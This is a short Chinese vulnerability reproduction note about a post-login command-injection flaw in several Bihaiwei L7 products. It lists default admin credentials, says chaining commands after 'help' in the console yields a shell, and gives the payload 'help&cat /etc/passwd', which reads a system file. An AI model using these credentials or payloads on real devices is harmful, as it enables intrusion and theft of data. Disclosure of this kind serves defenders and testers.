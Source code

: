 # 碧海威 L7多款产品 后台命令执行漏洞

# 碧海威 L7多款产品 后台命令执行漏洞

## 漏洞描述

碧海威 L7多款产品存在 后台命令执行漏洞，攻击者通过账号密码登录后台后，通过命令拼接造成命令注入。

## 漏洞影响

```
碧海威 L7多款产品
```

## 漏洞复现

登陆页面如下：

![碧海威 L7多款产品 后台命令执行漏洞](images/6-1620745283.png)

默认密码为 `adimn/admin or admin123`

漏洞存在于 命令控制台中，其中存在命令注入

![碧海威 L7多款产品 后台命令执行漏洞](images/2-1620745285.png)

可以使用 help & sh 得到交互式命令写入恶意文件

```
help&cat /etc/passwd
```


